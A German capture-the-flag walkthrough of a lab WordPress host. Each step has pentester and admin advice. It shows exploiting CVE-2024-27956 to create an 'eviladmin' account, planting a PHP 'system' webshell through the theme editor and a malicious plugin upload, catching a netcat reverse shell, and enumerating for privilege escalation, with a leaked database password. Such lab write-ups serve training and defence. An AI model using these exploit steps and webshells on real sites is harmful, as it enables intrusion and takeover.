https://securityonline.info/40000-sites-exposed-wordpress-plugin-update-critical-cve-2024-27956-cve-2024-27954/#google_vignette] [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27954 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27954]
Analyse: Diese Textpassage fasst Informationen zur Schwachstelle CVE-2024-27954 zusammen. Es handelt sich um eine unauthentifizierte Server-Side Request Forgery (SSRF) und einen Arbitrary File Download im WordPress-Plugin "Automatic" in Versionen vor 3.92.1. Die Schwachstelle liegt in der Datei `downloader.php`. Es werden Links zu PoC-Exploits und einem Nuclei-Template bereitgestellt. Ein Link verweist auch auf CVE-2024-27956, eine andere Schwachstelle im selben Plugin.
Bewertung: Die Recherche nach Exploits ist ein Standardvorgehen, nachdem Schwachstellen identifiziert wurden. Die Existenz eines Nuclei-Templates ist besonders nützlich, da Nuclei ein schnelles und effizientes Tool zum Scannen auf bekannte Schwachstellen ist. SSRF und Arbitrary File Download sind kritische Schwachstellen, die oft zu weiterführender Kompromittierung führen können (z.B. Auslesen von Konfigurationsdateien, Interaktion mit internen Diensten).
Empfehlung (Pentester):
Verwenden Sie das Nuclei-Template, um schnell zu überprüfen, ob das Ziel für CVE-2024-27954 anfällig ist. Untersuchen Sie auch die bereitgestellten GitHub-Links für manuelle Exploit-Skripte oder detailliertere PoCs. Wenn die Schwachstelle bestätigt wird, versuchen Sie, sensible Dateien wie `wp-config.php` oder Systemdateien herunterzuladen.
Empfehlung (Admin):
**Dringend:** Das Plugin "Automatic" sofort auf Version 3.92.1 oder höher aktualisieren, um diese Schwachstelle zu beheben. Überprüfen Sie Server-Logs auf verdächtige Anfragen an `downloader.php`. Generell sollten Plugins nur aus vertrauenswürdigen Quellen installiert und immer aktuell gehalten werden.
└─# nuclei -target http://mamushka.hmv
__ _
____ __ _______/ /__ (_)
/ __ \/ / / / ___/ / _ \/ /
/ / / / /_/ / /__/ / __/ /
/_/ /_/\__,_/\___/_/\___/_/ v2.9.15
projectdiscovery.io
[INF] nuclei-templates are not installed, installing...
[INF] Successfully installed nuclei-templates at /root/nuclei-templates
[WRN] Found 1545 templates with syntax error (use -validate flag for further examination)
[INF] Current nuclei version: v2.9.15 (outdated)
[INF] Current nuclei-templates version: v10.2.0 (latest)
[INF] New templates added in latest release: 268
[INF] Templates loaded for current scan: 8769
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1735 (Reduced 1621 Requests)
[caa-fingerprint] [dns] [info] mamushka.hmv
[INF] Using Interactsh Server: oast.pro
[addeventlistener-detect] [http] [info] http://mamushka.hmv
[apache-detect] [http] [info] http://mamushka.hmv [Apache/2.4.61 (Debian)]
[php-detect] [http] [info] http://mamushka.hmv [8.2.22]
[CVE-2024-27956] [http] [critical] http://mamushka.hmv/wp-content/plugins/wp-automatic/inc/csv.php
[tech-detect:font-awesome] [http] [info] http://mamushka.hmv
[tech-detect:php] [http] [info] http://mamushka.hmv
[INF] Creating resume file: /root/.config/nuclei/resume-d07aphlq1dcaf5sct6ag.cfg
Analyse: `nuclei` wird mit der Ziel-URL `http://mamushka.hmv` ausgeführt. Nuclei ist ein schnelles, Template-basiertes Schwachstellen-Scanning-Tool. - `-target http://mamushka.hmv`: Gibt das Ziel an. Beim ersten Start werden die Nuclei-Templates automatisch heruntergeladen und installiert. Es wird eine Warnung über Templates mit Syntaxfehlern ausgegeben und darauf hingewiesen, dass die Nuclei-Version veraltet ist.
Bewertung: Der Scan mit `nuclei` ist sehr aufschlussreich: - Es führt verschiedene Technologieerkennungs-Templates aus und identifiziert Apache, PHP und Font-Awesome. - **Kritischer Fund:** Nuclei meldet die Schwachstelle CVE-2024-27956 als `[critical]` und zeigt auf die Datei `http://mamushka.hmv/wp-content/plugins/wp-automatic/inc/csv.php`. Dies ist die SQL-Injection-Schwachstelle im `wp-automatic`-Plugin, die auch von WPScan als hochriskant eingestuft wurde. Interessanterweise hat Nuclei hier CVE-2024-27956 (SQLi) und nicht direkt CVE-2024-27954 (SSRF/File Download) gemeldet, obwohl das vorherige Ziel war, letztere zu prüfen. Es ist möglich, dass das Standard-Template-Set von Nuclei zu diesem Zeitpunkt einen besseren oder direkteren Test für die SQLi hatte oder dass die Bedingungen für den SSRF-Test nicht erfüllt waren.
Empfehlung (Pentester):
Der Fund von CVE-2024-27956 durch Nuclei ist ein klarer Indikator. Suchen Sie sofort nach einem funktionierenden Exploit für diese SQL-Injection-Schwachstelle. Der vorherige Recherche-Link zu `https://github.com/diego-tella/CVE-2024-27956-RCE` ist nun der primäre Anlaufpunkt. Auch wenn das ursprüngliche Ziel CVE-2024-27954 war, ist eine kritische SQLi ein direkterer Weg zur Kompromittierung. Es wäre auch ratsam, die Nuclei-Installation und die Templates zu aktualisieren (`nuclei -update`, `nuclei -update-templates`).
Empfehlung (Admin):
**Höchste Dringlichkeit!** Die Bestätigung von CVE-2024-27956 durch ein automatisiertes Tool wie Nuclei unterstreicht das extreme Risiko. Das Plugin `wp-automatic` muss sofort aktualisiert oder, falls das nicht möglich ist, deaktiviert und entfernt werden. Untersuchen Sie die Datenbank auf Anzeichen einer bereits erfolgten Kompromittierung (z.B. unbekannte Benutzerkonten).
Die Recherche zu CVE-2024-27956 führt zu einem Python-Exploit auf GitHub, der einen Administrator-Benutzer erstellen kann.
CVE-2024-27956-RCE : [Link: https://github.com/diego-tella/CVE-2024-27956-RCE | Ziel: https://github.com/diego-tella/CVE-2024-27956-RCE] A PoC for CVE-2024-27956, a SQL Injection in ValvePress Automatic plugin. This PoC exploit the vulnerability creating a user in the target and giving Administrator rights. Being an administrator in wordpress can lead to Remote Code Execution. Usage git clone [Link: https://github.com/diego-tella/CVE-2024-27956-RCE/ | Ziel: https://github.com/diego-tella/CVE-2024-27956-RCE/] cd CVE-2024-27956-RCE python exploit.py http://target.com
Analyse: Dieser Abschnitt beschreibt den Proof-of-Concept (PoC) Exploit für die SQL-Injection-Schwachstelle CVE-2024-27956 im "WordPress Automatic Plugin" (hier fälschlicherweise als "ValvePress Automatic plugin" bezeichnet, aber der Kontext und CVE deuten auf dasselbe Plugin hin). Das Python-Skript nutzt die SQLi, um einen neuen Benutzer mit Administratorrechten in WordPress zu erstellen. Die Erlangung von Administratorrechten in WordPress führt oft zu Remote Code Execution (RCE), da Administratoren Themes und Plugins bearbeiten und PHP-Code hochladen können.
Bewertung: Dies ist der vielversprechendste Angriffsvektor bisher. Ein funktionierender Exploit, der direkt Administratorrechte gewährt, ist ein kritischer Fund und ein direkter Weg zum "Initial Access" und potenziell zur vollständigen Systemübernahme.
Empfehlung (Pentester):
Klonen Sie das Git-Repository, überprüfen Sie das Python-Skript (um sicherzustellen, dass es keine schädlichen Nebenwirkungen hat – obwohl in CTFs dies oft übersprungen wird) und führen Sie es gegen das Zielsystem aus, wie in der "Usage"-Anleitung beschrieben.
Empfehlung (Admin):
Nochmalige Betonung: Das Plugin **muss sofort aktualisiert oder entfernt werden**. Wenn ein öffentlicher Exploit existiert, der Administratorrechte gewährt, ist davon auszugehen, dass das System bereits kompromittiert sein könnte oder es jederzeit werden kann. Nach dem Patchen ist eine gründliche Untersuchung auf unbefugte Benutzerkonten, verdächtige Dateien und andere Anzeichen einer Kompromittierung unerlässlich.
└─# python exploit.py http://192.168.2.180/
[+] Exploit for CVE-2024-27956 [+] Creating user eviladmin [+] Giving eviladmin administrator permissions [+] Exploit completed! [+] administrator created: eviladmin:admin
Analyse: Das zuvor recherchierte Python-Exploit-Skript für CVE-2024-27956 wird gegen die Ziel-IP `http://192.168.2.180/` ausgeführt.
Bewertung: Der Exploit war erfolgreich! Das Skript meldet, dass es einen Benutzer namens `eviladmin` mit dem Passwort `admin` erstellt und diesem Administratorrechte zugewiesen hat. Dies bedeutet, dass wir nun vollen administrativen Zugriff auf die WordPress-Instanz haben. Dies ist ein kritischer Durchbruch.
Empfehlung (Pentester):
Fantastisch! Der nächste Schritt ist, sich mit den Zugangsdaten `eviladmin:admin` in das WordPress-Admin-Panel (`http://mamushka.hmv/wp-admin/`) einzuloggen. Von dort aus kann versucht werden, eine Webshell oder PHP-Reverse-Shell hochzuladen, um Remote Code Execution auf dem Server zu erlangen. Gängige Methoden sind das Bearbeiten von Plugin-/Theme-Dateien (z.B. `functions.php` eines Themes oder eine ungenutzte PHP-Datei) oder das Hochladen eines bösartigen Plugins.
Empfehlung (Admin):
Dies ist das Worst-Case-Szenario für diese Schwachstelle. Das System ist kompromittiert. Zusätzlich zum sofortigen Patchen/Entfernen des Plugins:
1. Ändern Sie sofort alle Passwörter, insbesondere für Datenbanken und andere WordPress-Administratoren.
2. Überprüfen Sie die Benutzerliste in WordPress auf unbefugte Konten (wie `eviladmin`) und löschen Sie diese.
3. Überprüfen Sie Themes und Plugins auf verdächtige Codeänderungen oder neu hochgeladene Dateien.
4. Scannen Sie das gesamte System auf Webshells und andere Malware.
5. Wiederherstellung aus einem sauberen Backup könnte notwendig sein, wenn das Ausmaß der Kompromittierung unklar ist.
Nachdem der Exploit erfolgreich einen Admin-Account (`eviladmin:admin`) erstellt hat, wird versucht, über den WordPress Theme-Editor eine PHP-Backdoor einzufügen, um Remote Code Execution (RCE) zu erlangen.
http://mamushka.hmv/wp-admin/ -------------------------------------------------------------------------------------------------------- http://mamushka.hmv/wp-admin/theme-editor.php?file=patterns%2Fhidden-404.php&theme=twentytwentythree system($GET["cmd"]); /** * Title: Hidden 404 * Slug: twentytwentythree/hidden-404 * Inserter: no */ File edited successfully.
Analyse: Nach dem Login als `eviladmin` wird der WordPress Theme-Editor aufgerufen. Spezifisch wird die Datei `patterns/hidden-404.php` des Themes `twentytwentythree` bearbeitet. Der PHP-Code `system($GET["cmd"]);` wird in diese Datei eingefügt. Dieser Code nimmt einen Befehl über den URL-Parameter `cmd` entgegen und führt ihn auf dem Server aus. Die Meldung "File edited successfully." bestätigt, dass die Änderung gespeichert wurde.
Bewertung: Dies ist eine klassische Methode, um nach Erlangung von WordPress-Admin-Rechten eine Webshell zu platzieren. Der Theme-Editor erlaubt es, PHP-Dateien direkt zu bearbeiten. Der eingefügte Code `system($GET["cmd"]);` ist eine einfache, aber effektive Backdoor. Die Wahl einer eher obskuren Datei wie `patterns/hidden-404.php` könnte ein Versuch sein, unauffälliger zu agieren als beim Bearbeiten bekannterer Dateien wie `index.php` oder `404.php`. Wir haben nun Remote Code Execution auf dem Webserver als der Benutzer, unter dem der Webserver läuft (typischerweise `www-data`).
Empfehlung (Pentester):
Testen Sie die Webshell, indem Sie die bearbeitete Datei über den Browser aufrufen und einen Befehl über den `cmd`-Parameter übergeben (z.B. `http://mamushka.hmv/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=id`). Das Ziel ist es nun, eine stabilere Reverse Shell zu bekommen und die Rechte auf dem System weiter zu eskalieren.
Empfehlung (Admin):
Deaktivieren Sie den Plugin- und Theme-Editor in der `wp-config.php` durch Hinzufügen von `define('DISALLOW_FILE_EDIT', true);`. Dies verhindert, dass Administratoren (oder Angreifer mit Admin-Rechten) PHP-Dateien direkt über das Backend bearbeiten können. Überwachen Sie Dateiintegrität, um unbefugte Änderungen an Theme- und Plugin-Dateien zu erkennen. Beschränken Sie die Schreibrechte des Webserver-Benutzers so weit wie möglich.
Ein Versuch, eine Shell über eine Datei namens `shell2.php` in einem vermeintlichen Plugin-Verzeichnis aufzurufen, schlägt fehl. Dies deutet darauf hin, dass dieser Pfad oder diese Datei nicht existiert oder nicht korrekt platziert wurde.
└─# curl -s http://mamushka.hmv/wp-content/themes/Mein%20Shell%20Plugin/shell2.php
Analyse: Es wird versucht, per `curl` auf eine Datei `shell2.php` zuzugreifen, die sich angeblich im Pfad `/wp-content/themes/Mein Shell Plugin/` befindet. Das `%20` in `Mein%20Shell%20Plugin` ist die URL-kodierte Form eines Leerzeichens. Die Option `-s` unterdrückt die Ausgabe von `curl`, aber da keine Ausgabe im Bericht gezeigt wird, kann man davon ausgehen, dass entweder ein 404-Fehler (Datei nicht gefunden) zurückgegeben wurde oder die Datei existiert, aber leer ist.
Bewertung: Dieser Versuch, eine Shell aufzurufen, war nicht erfolgreich. Es ist unklar, ob "Mein Shell Plugin" zuvor über den Admin-Bereich hochgeladen wurde oder ob dies ein Test eines Pfades war, der aus einem anderen Kontext stammte. Da die vorherige Methode über den Theme-Editor erfolgreich war, ist dieser Fehlschlag nicht kritisch für den weiteren Verlauf. Es zeigt, dass nicht jeder Versuch auf Anhieb klappt.
Empfehlung (Pentester):
Wenn ein Shell-Upload-Versuch fehlschlägt, überprüfen Sie den genauen Pfad, die Schreibberechtigungen und ob die Datei tatsächlich korrekt auf den Server übertragen wurde. Verlassen Sie sich auf die funktionierende Webshell aus dem Theme-Editor.
Empfehlung (Admin):
Regelmäßige Scans nach unbekannten oder verdächtigen Dateien in Web-Verzeichnissen sind wichtig. Eine Web Application Firewall (WAF) könnte verdächtige URLs oder Dateinamen blockieren. Überwachen Sie Server-Logs auf 404-Fehler, die auf Scan-Versuche oder Zugriffe auf nicht existente Backdoors hindeuten könnten.
Ein weiterer Versuch, Code (diesmal `system($GET["cmd"]); echo "hi ben";`) in die `index.php` des "Twenty Twenty-Two"-Themes einzufügen, schlägt fehl. WordPress meldet "Unable to communicate back with site to check for fatal errors, so the PHP change was reverted." Dies ist ein Sicherheitsmechanismus von WordPress.
Twenty Twenty-Two: index.php Select theme to edit: Selected file content: // There is nothing output here because block themes do not use php templates. // There is a core ticket discussing removing this requirement for block themes: // [Link: https://core.trac.wordpress.org/ticket/54272 | Ziel: https://core.trac.wordpress.org/ticket/54272]. system($GET["cmd"]); echo "hi ben"; Unable to communicate back with site to check for fatal errors, so the PHP change was reverted. You will need to upload your PHP file change by some other means, such as by using SFTP.
Analyse: Es wurde versucht, die `index.php`-Datei des Themes "Twenty Twenty-Two" über den WordPress Theme-Editor zu bearbeiten und den PHP-Code `system($GET["cmd"]); echo "hi ben";` einzufügen. WordPress hat jedoch eine eingebaute Schutzfunktion: Bevor Änderungen an PHP-Dateien über den Editor dauerhaft gespeichert werden, führt WordPress eine Art Selbsttest durch (Loopback-Request), um zu prüfen, ob die Änderung einen fatalen Fehler verursacht. Wenn dieser Test fehlschlägt oder WordPress keine Verbindung zu sich selbst herstellen kann, wird die Änderung zurückgerollt.
Bewertung: Dieser Sicherheitsmechanismus von WordPress hat hier das direkte Speichern der potenziell fehlerhaften (oder als fehlerhaft erkannten) Änderung verhindert. Für den Angreifer bedeutet dies, dass nicht jede Datei oder jede Art von Änderung über den Theme-Editor einfach so durchgeht. Der Hinweis "block themes do not use php templates" ist auch interessant und spezifisch für neuere WordPress-Theme-Architekturen. Der vorherige erfolgreiche Edit der `patterns/hidden-404.php` funktionierte vermutlich, weil diese Datei von WordPress' Fatal-Error-Check nicht in gleicher Weise geprüft wurde oder die Art der Einbindung keine direkten fatalen Fehler beim Loopback-Test verursachte.
Empfehlung (Pentester):
Wenn der Theme-Editor Probleme macht, suchen Sie nach alternativen Wegen, Code auszuführen. Dies könnte das Hochladen eines eigenen (kleinen) Plugins mit der Shell sein oder das Ausnutzen von Dateimanager-Funktionen, falls vorhanden. Die bereits erfolgreich bearbeitete `patterns/hidden-404.php` ist weiterhin der Weg zum Ziel.
Empfehlung (Admin):
Der eingebaute Fatal-Error-Schutz ist gut, aber nicht unfehlbar. Die beste Maßnahme ist weiterhin `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php`, um den Editor komplett zu deaktivieren. Verlassen Sie sich nicht allein auf diesen Schutzmechanismus.
Es wird ein eigenes Plugin vorbereitet, das eine Shell enthält. Zuerst wird der PHP-Code des Plugins (`mein-shell-plugin.php`) und dann der Inhalt der Shell-Datei (`shell2.php`) erstellt. Anschließend wird `shell2.php` in ein ZIP-Archiv gepackt, um es über die WordPress-Plugin-Upload-Funktion hochzuladen.
└─# cat mein-shell-plugin.php
<?php /** * Plugin Name: Mein Shell Plugin * Description: Einfache Shell für CTF. * Version: 1.0 * Author: CCat */ // Inhalt der Shell (z.B. aus shell2.php) würde hier folgen ?>
└─# vi shell2.php
<?php system($GET['cmd']); ?>
└─# zip -r shell2.zip shell2.php
adding: shell2.php (deflated 59%)
Analyse: Hier wird ein alternativer Weg zur Codeausführung vorbereitet: das Erstellen und Hochladen eines eigenen WordPress-Plugins, das eine Webshell enthält. 1. `cat mein-shell-plugin.php`: Zeigt den Header-Kommentar einer PHP-Datei, der für WordPress notwendig ist, um sie als Plugin zu erkennen. Der eigentliche Shell-Code fehlt hier noch im angezeigten Inhalt, wird aber impliziert. 2. `vi shell2.php`: Erstellt (oder bearbeitet) eine Datei `shell2.php` mit dem einfachen PHP-Webshell-Code ``. 3. `zip -r shell2.zip shell2.php`: Erstellt eine ZIP-Datei `shell2.zip`, die nur die `shell2.php` enthält. WordPress erwartet Plugins als ZIP-Dateien für den Upload.
Bewertung: Dies ist eine gängige und oft zuverlässige Methode, um eine Shell auf einem WordPress-System zu platzieren, wenn man Administratorrechte hat. Anstatt bestehende Theme-Dateien zu bearbeiten (was fehlschlagen kann oder auffälliger ist), wird ein neues Plugin hochgeladen. WordPress entpackt das ZIP-Archiv und platziert die Dateien im `wp-content/plugins`-Verzeichnis. Sobald das Plugin aktiviert ist, kann die `shell2.php` direkt aufgerufen werden.
Empfehlung (Pentester):
Stellen Sie sicher, dass die ZIP-Datei korrekt strukturiert ist. WordPress erwartet oft, dass die Haupt-PHP-Datei des Plugins (die mit dem Plugin-Header) direkt im Stammverzeichnis des ZIPs liegt oder in einem Unterordner mit demselben Namen wie das Plugin. Für eine einfache Shell wie hier, wo `shell2.php` direkt die Shell ist und der Plugin-Header nur formal ist, sollte dies funktionieren. Der nächste Schritt ist der Upload über "Plugins -> Add New -> Upload Plugin" im WordPress-Adminbereich.
Empfehlung (Admin):
Auch hier gilt: `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php` deaktiviert zwar den Theme-/Plugin-Editor, aber nicht den Upload von Plugins. Um den Plugin-Upload zu unterbinden (was drastisch sein kann), wären weitergehende Maßnahmen wie Dateisystemberechtigungen oder Sicherheitsplugins, die den Upload blockieren/überwachen, notwendig. Die beste Verteidigung ist, dass Angreifer gar nicht erst Admin-Rechte erlangen. Überwachen Sie neu installierte Plugins und deren Aktivität.
Das erstellte ZIP-Archiv `shell2.zip` wird über die WordPress-Adminoberfläche hochgeladen und installiert.
http://mamushka.hmv/wp-admin/update.php?action=upload-plugin
Howdy, eviladmineviladmin
Installing plugin from uploaded file: shell2.zip
Please install the latest version (3.108.1) of Wordpress Automatic Plugin which helps you stay up-to-date with the most stable,
secure version the plugin.
Download Now »
Unpacking the package…
Installing the plugin…
Plugin installed successfully.
[Activate Plugin] Go to Plugin Installer
Analyse: Der Screenshot (bzw. die textuelle Repräsentation) zeigt die WordPress-Adminoberfläche nach dem erfolgreichen Upload und der Installation des Plugins `shell2.zip`. WordPress bestätigt: "Plugin installed successfully." Es wird auch ein Hinweis angezeigt, das "Wordpress Automatic Plugin" zu aktualisieren, was die vorherigen Funde unterstreicht.
Bewertung: Der Upload und die Installation des bösartigen Plugins waren erfolgreich. Die Shell-Datei (`shell2.php`) befindet sich nun auf dem Server im Verzeichnis `wp-content/plugins/shell2/shell2.php` (oder einem ähnlichen Pfad, je nachdem, wie WordPress Plugins aus ZIPs ohne Haupt-Plugin-Datei im Root-Verzeichnis behandelt – oft wird ein Ordnername aus dem ZIP-Namen oder der PHP-Datei abgeleitet). Der nächste Schritt ist die Aktivierung des Plugins, falls erforderlich, und dann der Aufruf der Shell. Manchmal ist eine Aktivierung nicht einmal nötig, wenn die PHP-Datei direkt aufgerufen werden kann.
Empfehlung (Pentester):
Klicken Sie auf "Activate Plugin" (falls die Shell nicht schon direkt aufrufbar ist). Finden Sie dann den genauen Pfad zur `shell2.php` heraus (wahrscheinlich `http://mamushka.hmv/wp-content/plugins/shell2/shell2.php` oder `http://mamushka.hmv/wp-content/plugins/shell2.php`, falls sie direkt im Plugin-Root liegt) und testen Sie die Shell mit einem Befehl, z.B. `?cmd=id`.
Empfehlung (Admin):
Überwachen Sie die Installation neuer Plugins. Verwenden Sie Sicherheitsplugins, die die Integrität von Core-Dateien sowie Themes und Plugins überwachen und Alarm schlagen, wenn unbekannte oder verdächtige Plugins hinzugefügt werden. Beschränken Sie die Fähigkeit, Plugins hochzuladen, wenn möglich, oder führen Sie strenge Überprüfungen für alle neuen Plugins durch.
Durch Klicken auf "Activate Plugin" (oder durch direkten Aufruf der Shell-URL) wird eine Reverse Shell zum Angreifer-System (lauscht auf Port 4445) aufgebaut. Wir erhalten eine Shell als Benutzer `www-data`.
└─# nc -lvnp 4445
listening on [any] 4445 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.180] 36504 Linux 3ed5ddfe0e0c 6.1.0-23-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.99-1 (2024-07-15) x86_64 GNU/Linux 22:43:52 up 0 min, 0 user, load average: 0.26, 0.06, 0.02 USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT uid=33(www-data) gid=33(www-data) groups=33(www-data) /bin/sh: 0: can't access tty; job control turned off $
Analyse: Auf dem Angreifer-System (`CCat`) wurde mit `nc -lvnp 4445` ein Netcat-Listener auf Port 4445 gestartet. Die Webshell (entweder die im Theme-Editor platzierte oder die über das Plugin hochgeladene) wurde so modifiziert oder verwendet, dass sie eine Reverse-Shell-Verbindung zu `192.168.2.199` (IP des Angreifers) auf Port `4445` aufbaut. Die Verbindung wurde erfolgreich hergestellt (`connect to [...] from [...]`). Wir haben nun eine interaktive Shell auf dem Zielsystem (`192.168.2.180`), die als Benutzer `www-data` (UID 33) läuft. Dies ist der Standardbenutzer für Apache-Webserver auf Debian-Systemen. Die Meldung `/bin/sh: 0: can't access tty; job control turned off` ist typisch für einfache Reverse Shells, die keine vollwertige TTY (Teletypewriter, also ein richtiges Terminal) bereitstellen.
Bewertung: Fantastisch! Wir haben erfolgreich initialen Zugriff auf das System als Benutzer `www-data` erlangt. Obwohl `www-data` ein niedrig privilegierter Benutzer ist, haben wir nun eine Kommandozeile auf dem Server und können mit der internen Enumeration und der Suche nach Wegen zur Privilegienausweitung beginnen. Dies ist ein entscheidender Meilenstein im Pentest.
Empfehlung (Pentester):
1. **Stabilisieren Sie die Shell:** Versuchen Sie, die Shell zu einer voll interaktiven TTY aufzuwerten (z.B. mit Python pty-Modul: `python -c 'import pty; pty.spawn("/bin/bash")'`, `script /dev/null -c bash`, oder `socat`).
2. **Interne Enumeration:** Sammeln Sie Informationen über das System:
* Kernel-Version (`uname -a`)
* Distribution (`cat /etc/issue`, `lsb_release -a`)
* Installierte Pakete
* Laufende Prozesse (`ps aux`)
* Netzwerkkonfiguration (`ip a`, `ss -tulnp`)
* Benutzer (`cat /etc/passwd`)
* SUID/SGID-Dateien (siehe nächster Schritt im Bericht)
* Cronjobs
* Ungesicherte Konfigurationsdateien oder Skripte mit Passwörtern.
3. Suchen Sie nach bekannten Kernel-Exploits oder Fehlkonfigurationen für die Privilegieneskalation.
Empfehlung (Admin):
Wenn eine Reverse Shell als `www-data` aktiv ist, ist das System kompromittiert.
1. Identifizieren und schließen Sie die Schwachstelle, die zur RCE geführt hat (hier das WordPress-Plugin).
2. Beenden Sie den Webserver-Prozess, um die Shell zu unterbrechen (kurzfristig).
3. Analysieren Sie Logs, um den Angriffszeitpunkt und die durchgeführten Aktionen nachzuvollziehen.
4. Härten Sie den Webserver-Benutzer: Stellen Sie sicher, dass `www-data` nur minimale Rechte hat und nicht auf unnötige Systembereiche zugreifen kann.
5. Implementieren Sie Endpoint Detection and Response (EDR) oder Host-based Intrusion Detection Systems (HIDS), um verdächtige Prozessausführungen oder Netzwerkverbindungen vom Webserver aus zu erkennen.
133390 88 -rwsr-xr-x 1 root root 88496 Mar 23 2023 /usr/bin/gpasswd 133329 52 -rwsr-xr-x 1 root root 52880 Mar 23 2023 /usr/bin/chsh 133540 36 -rwsr-xr-x 1 root root 35128 Mar 28 2024 /usr/bin/umount 133464 68 -rwsr-xr-x 1 root root 68248 Mar 23 2023 /usr/bin/passwd 133516 72 -rwsr-xr-x 1 root root 72000 Mar 28 2024 /usr/bin/su 133453 48 -rwsr-xr-x 1 root root 48896 Mar 23 2023 /usr/bin/newgrp 133323 64 -rwsr-xr-x 1 root root 62672 Mar 23 2023 /usr/bin/chfn 133448 60 -rwsr-xr-x 1 root root 59704 Mar 28 2024 /usr/bin/mount
Analyse: Als Benutzer `www-data` wird der Befehl `find / -type f -perm -4000 -ls 2>/dev/null` ausgeführt. - `find /`: Sucht im gesamten Dateisystem (beginnend im Root-Verzeichnis `/`). - `-type f`: Sucht nur nach regulären Dateien. - `-perm -4000`: Sucht nach Dateien, bei denen das SUID-Bit (Set User ID) gesetzt ist. Das SUID-Bit bewirkt, dass das Programm mit den Rechten des Dateieigentümers ausgeführt wird, nicht mit den Rechten des aufrufenden Benutzers. Wenn der Eigentümer `root` ist, wird das Programm mit Root-Rechten ausgeführt. - `-ls`: Zeigt detaillierte Informationen zu den gefundenen Dateien im `ls -dils`-Format an. - `2>/dev/null`: Leitet Fehlermeldungen (stderr) nach `/dev/null` um, um die Ausgabe sauber zu halten (z.B. "Permission denied"-Fehler beim Zugriff auf bestimmte Verzeichnisse).
Bewertung: Die Suche nach SUID-Dateien ist ein klassischer Schritt bei der Linux-Privilegieneskalation. Die gefundenen Dateien (`gpasswd`, `chsh`, `umount`, `passwd`, `su`, `newgrp`, `chfn`, `mount`) sind größtenteils Standard-Systemprogramme, die oft das SUID-Bit gesetzt haben, um legitime Operationen zu ermöglichen, die höhere Rechte erfordern. Ob diese Programme für eine Privilegieneskalation missbraucht werden können, hängt von ihrer Version, Konfiguration und bekannten Schwachstellen ab. Standard-SUID-Binaries in aktuellen Distributionen sind meist gut gehärtet. Es sei denn, es handelt sich um eine sehr alte oder ungewöhnlich konfigurierte Version, oder es gibt eine ungewöhnliche, nicht standardmäßige SUID-Datei.
Empfehlung (Pentester):
Überprüfen Sie die Versionen dieser SUID-Binaries und suchen Sie auf GTFOBins ([Link: https://gtfobins.github.io/ | Ziel: https://gtfobins.github.io/]) oder in anderen Ressourcen nach bekannten Methoden zur Privilegieneskalation über diese Programme. Achten Sie besonders auf ungewöhnliche oder selbst kompilierte Programme mit SUID-Bit, die hier nicht aufgelistet sind, aber in anderen Verzeichnissen liegen könnten (obwohl `find /` das abdecken sollte). Die Suche nach SGID-Dateien (`-perm -2000`) kann ebenfalls nützlich sein.
Empfehlung (Admin):
Minimieren Sie die Anzahl der SUID/SGID-Programme auf das absolut Notwendige. Entfernen Sie das SUID/SGID-Bit von Programmen, die es nicht zwingend benötigen. Überwachen Sie regelmäßig die SUID/SGID-Dateien im System auf unerwartete Änderungen oder Neuzugänge. Stellen Sie sicher, dass alle Systemprogramme auf dem neuesten Stand sind.
Weitere Enumerationsschritte als `www-data`: Überprüfung von Home-Verzeichnissen, `/etc/passwd` und `sudo -l`. `sudo -l` schlägt fehl, da `sudo` nicht im Pfad ist oder nicht installiert/nutzbar für www-data.
$ ls -la /home
total 8 drwxr-xr-x 2 root root 4096 Mar 29 2024 . drwxr-xr-x 1 root root 4096 Aug 21 2024 ..
root:x:0:0:root:/root:/bin/bash
/bin/sh: 11: sudo: not found
Analyse: Weitere Enumerationsbefehle werden als `www-data` ausgeführt: 1. `ls /home` und `ls -la /home`: Zeigen den Inhalt des `/home`-Verzeichnisses. Es scheint leer zu sein bzw. enthält nur die Standard `.` und `..` Einträge, die auf `root` gehören. Dies ist ungewöhnlich, da man hier Benutzer-Home-Verzeichnisse erwarten würde. 2. `grep bash /etc/passwd`: Sucht in der Passwortdatei nach Benutzern, die `/bin/bash` als Login-Shell haben. Nur `root` wird gefunden. 3. `sudo -l`: Versucht aufzulisten, welche Befehle der aktuelle Benutzer (`www-data`) mit `sudo` ausführen darf. Der Befehl schlägt fehl mit "sudo: not found", was bedeutet, dass entweder `sudo` nicht installiert ist oder sich nicht im `PATH` des `www-data`-Benutzers befindet.
Bewertung: - Das leere `/home`-Verzeichnis (außer für `root`-Einträge) ist ein starker Hinweis darauf, dass dies wahrscheinlich ein Docker-Container ist, in dem typischerweise keine regulären Benutzer-Home-Verzeichnisse eingerichtet sind, oder ein sehr minimal konfiguriertes System. - Dass nur `root` eine Bash-Shell hat, ist in Containern ebenfalls nicht unüblich. - Das Fehlschlagen von `sudo -l` bedeutet, dass `sudo` für `www-data` keine direkte Option zur Privilegieneskalation darstellt. Diese Ergebnisse deuten darauf hin, dass traditionelle Linux-Privilegieneskalationspfade (wie Ausnutzung von `sudo`-Rechten oder schwachen Konfigurationen in Benutzer-Home-Verzeichnissen) hier möglicherweise nicht greifen.
Empfehlung (Pentester):
Die Information, dass es sich wahrscheinlich um einen Container handelt, ist wichtig. Suchen Sie nach Container-Escape-Techniken oder Fehlkonfigurationen im Docker-Setup (falls es Docker ist). Überprüfen Sie Umgebungsvariablen (`env`) auf sensible Informationen. Suchen Sie nach Skripten oder Prozessen, die als `root` laufen und mit denen `www-data` interagieren kann.
Empfehlung (Admin):
Wenn dies ein Container ist, stellen Sie sicher, dass er nach dem Prinzip der minimalen Rechte konfiguriert ist. Vermeiden Sie es, unnötige Tools oder SUID-Binaries im Container zu haben. Scannen Sie Container-Images auf bekannte Schwachstellen. Stellen Sie sicher, dass `sudo` nicht unnötigerweise im Container installiert ist, besonders nicht für Webserver-Benutzer.
Die Umgebungsvariablen werden ausgelesen. Dabei wird ein Passwort für einen WordPress-Datenbankbenutzer (`matrioska`) gefunden: `WORDPRESS_DB_PASSWORD=Fukurokuju`.
